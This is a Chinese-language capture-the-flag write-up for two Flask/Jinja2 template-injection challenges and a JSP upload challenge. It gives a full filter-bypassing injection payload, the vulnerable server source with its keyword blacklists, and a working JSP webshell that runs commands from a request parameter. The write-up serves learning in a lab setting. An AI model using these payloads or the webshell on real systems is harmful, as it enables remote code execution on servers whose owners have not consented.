 
title:  HWCTF-华为云场WP
categories: [CTF]
tags: [wp,web]

---
突然发现柴鸡的我除了ssti其他都不会,嘤嘤嘤( •̥́ ˍ •̀ू )
<!--more-->

## mine1_1

题目一开,经过测试发现是一道python2 ssti,但发现过滤 单引号、双引号这导致我们不能直接构造字符串来传参数，并且ban了`_`让我们对`__class__`这些内置属性访问产生了烦恼，同时ban了`[`让我们对字典的操作受到影响。但好在符号和关键字没有ban全。

### 字符串问题

1.我们可以利用request对象属性来传递参数。

虽然`args`、`host`、`headers`、`json`、`_`等字符被ban，但是还有cookies与values没有被ban。我们可以通过cookie传递或get参数。（ps：values在同时处理get与post的数据）

2.我们也可以利用dict 与join的特性来构筑字符串。例：

```python
dict(args=1)|join  ## "args"
```

但这个不能绕出`_`，想要`_`要和上面面的1结合访问：

```python
(request|attr(dict(args=1)|join)).x  ## request.args.x
```

然后get提交参数。

### 内置属性访问

由于ban了`_`、`"`、`‘`、`[`但我们还是可以利用`|attr`+ 字符串的方式来访问。



### 字典的操作

由于ban  `[` 因此要对字典进行取数据时要通过pop或`__getitem__`来取值。

但要注意的是pop 的作用是<u>**删除字典给定键 key 及对应的值，返回值为被删除的值**</u>所以慎重。

例如：`__globals__`后的字典pop `__builtins__`会因为无法删除而抱错。同时就会能访问取值，pop一次后该键值也可能被删除。

（做题时一开始用了pop卡了半天）

所以安全的访问还是用`__getitem__`

对了，还有`|attr`与`__getattribute__`只处理属性，不会对字典取值。

所以payload，如下：（做题时，智障了忘了cookies与values绕了下）：

```
{{((((((22|attr((request|attr((dict(ar=1,gs=1)|join))).x))|attr((request|attr((dict(ar=1,gs=1)|join))).x2))|attr((request|attr((dict(ar=1,gs=1)|join))).x3)()).pop(71)|attr((request|attr((dict(ar=1,gs=1)|join))).x4))|attr((request|attr((dict(ar=1,gs=1)|join))).x5))|attr((request|attr((dict(ar=1,gs=1)|join))).x7)(dict(sys=1)|join)).modules}}&x=__class__&x2=__base__&x3=__subclasses__&x4=__init__&x5=__globals__&x6=pop&x7=__getitem__
```

![image-20201222000742752]( image-20201222000742752.png)

然后是趴下的原码：

```python
#! /usr/bin/env python
#encoding=utf-8
from flask import Flask,render_template,redirect
from flask import request
import urllib
import sys
import os
from jinja2 import Template

app = Flask(__name__)

def safe_msg(msg):
    if 'args' in msg or '_' in msg or '[' in msg or 'path' in msg or 'host' in msg or 'headers' in msg or 'endpoint' in msg or 'json' in msg or 'user_agent' in msg or '"' in msg or "'" in msg or "%" in msg:
        return False
    else:
        return True

@app.route("/", methods=['GET'])
def index():
    return render_template("index.html")


@app.route("/over", methods=['GET'])
def over():
    return render_template('over.html')


@app.route("/success", methods=['GET'])
def success():
    msg = request.args.get("msg")
    if(msg == None):
        msg = 'anonymous'
    if safe_msg(msg):
        t = Template("Good Job! " + msg + " . But sorry, there isn't flag")
    else:
        t = Template("You look dangerous.....")
    return t.render(request=request)


if __name__ == '__main__':
    app.debug = False
    app.run(host='0.0.0.0', port=8000)

```



## mine2

emm，这道感觉比上道要简单多(可能是python3环境有太湖杯非预期一把梭)。

过滤`.`、`[`、`_`但是我们依然可以用`|attr`来取属性。

同时，由于有双引号我们可以通过python3 字符格式化特性用16进制或8进制来绕waf。

同时，没有`{ {`我们只能用`{ %`我们可以用

```python
{% print( )%}
```

来回显字符。

payload：

![image-20201222002412744]( image-20201222002412744.png)

```python
#! /usr/bin/env python
#encoding=utf-8
from flask import Flask,render_template,redirect
from flask import request
import urllib
import sys
import os
from jinja2 import Template

app = Flask(__name__)

def safe_msg(msg):
    blacklist = ['~','set','or','args','_','[','request','lipsum','=','chr','json','g','.',"'",'{{','u','get',' ',',','*','^','&','$','#','@','!']
    for i in blacklist:
        if i in msg: 
            return False
    return True

@app.route("/", methods=['GET'])
def index():
    return render_template("index.html")


@app.route("/over", methods=['GET'])
def over():
    return render_template('over.html')


@app.route("/success", methods=['GET'])
def success():
    msg = request.args.get("msg")
    if(msg == None):
        msg = 'anonymous'
    if safe_msg(msg):
        t = Template("Good Job! " + msg + " . But sorry, there isn't flag")
    else:
        t = Template("You look dangerous.....")
    return t.render(request=request)


if __name__ == '__main__':
    app.debug = False
    app.run(host='0.0.0.0', port=8000)
```



## webshell_1 

一道jsp 文件上传，有waf。多次上传马，就躲过waf。（可能条件竞争）马如下：

```jsp
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>
```

![image-20201222002704598]( image-20201222002704598.png)

